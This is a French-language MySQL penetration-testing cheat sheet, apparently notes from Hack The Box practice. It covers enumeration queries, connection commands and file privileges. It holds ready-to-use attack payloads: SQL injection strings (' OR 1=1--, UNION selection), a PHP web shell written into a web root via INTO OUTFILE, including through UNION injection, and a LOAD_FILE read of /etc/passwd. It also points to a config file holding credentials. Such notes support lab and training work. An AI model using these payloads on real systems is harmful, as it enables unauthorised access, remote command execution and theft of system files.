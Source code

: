 | | |
| --- | --- |
|# |	commentaire |
| `-- ` | 	commentaire (suivi d'un espace en MySQL)|
|‘abc’|	guillemets simples pour délimiter chaîne de charactères|
|'-- 	|		Fermer la chaîne et commenter la suite|
|' OR 1=1-- |	Retourne tout, 1=1 toujours vrai|
	
# Connexion

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
mysql -u rot -h docket.hackthebox.eu -P 3306 -p
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# BD par défaut
| nom | description |
| --- | --- |
| mysql | is the system database that contains tables that store information required by the MySQL server |
| information_schema | provides access to database metadata |
| performance_schema | is a feature for monitoring MySQL Server execution at a low level |
| sys | 			a set of objects that helps DBAs and developers interpret data collected by the Performance Schema|

# Info Système
|        Command                      |                                                                      Description                                                                                         |
| --- | --- |
| ```mysql -u <user> -p<password> -h <IP address>``` | Connect to the MySQL server. There should not be a space between the '-p' flag, and the password. |
| ```select version();``` |  |
| ```select system_user();``` |  |
| ```select user()``` <br>```select current_user()``` <br>```select user from mysql.user``` | Utilisateur actuel |
| ```select super_priv from mysql.user``` | Si possède priv super admin. Retourne (Y/N) |
| ```SELECT grantee, privilege_type FROM information_schema.user_privileges WHERE grantee="root'@'localhost'"``` | Tous les priv |

System Schema (sys) et information schema (information_schema) contienent de l'information de gestion. Information schema provient sûrtout de system schema.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
mysql> use sys;
mysql> show tables;
select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA;
select TABLE_NAME, TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='NOM_DB'
select column_name, table_name, table_schema from information_schema.columns where table_name='NOM_TABLE'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# Commandes utiles

|                                        Command                      |                                                                      Description                                                                                         |
| --- | --- |
| ```show databases;```  | Show all databases. |
| ```use <database>;```  | Select one of the existing databases. |
| ```show tables;```  | Show all available tables in the selected database. |
| ```show columns from <table>;``` | Show all columns in the selected database. |
| ```select * from <table>;```  | Show everything in the desired table. |
| ```select * from <table> where <column> = "<string>";```  | Search for needed string in the desired table. |
| ```Describe <table>;``` | liste la structure d'une table |
| ```Select * from [nom_BD].[nom_table]``` | Lire une autre base de données (pratique pour union attaque) |

# Outils
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
mysql -u root -p -h 192.168.50.16 -P 3306
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# Écriture de fichier
utilisateur de la DB doit avoir privilège **FILE**
variable MySQL global **secure_file_priv** pas activé ou valeur de chemin. Si NULL, aucune écriture possible.	
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SHOW VARIABLES LIKE 'secure_file_priv';
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Par défaut:
* MariaDB: 	aucune restriction
* MySQL: 	 /var/lib/mysql-files
L'usager doit avoir accès en écriture où l'on écrit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
-- webshell
SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "C:/xampp/htdocs/webshell.php"
-- avec union
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "C:xampp\htdocs\webshell.php" -- //
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# Lecture de fichiers
Pas actif par défaut
utilisateur de la DB doit avoir privilège FILE

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ sql
select LOAD_FILE("/etc/passwd");
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# Fichier de config
Information intéressante comme nom et mot de passe
/etc/mysql/mysql.conf.d/mysqld.cnf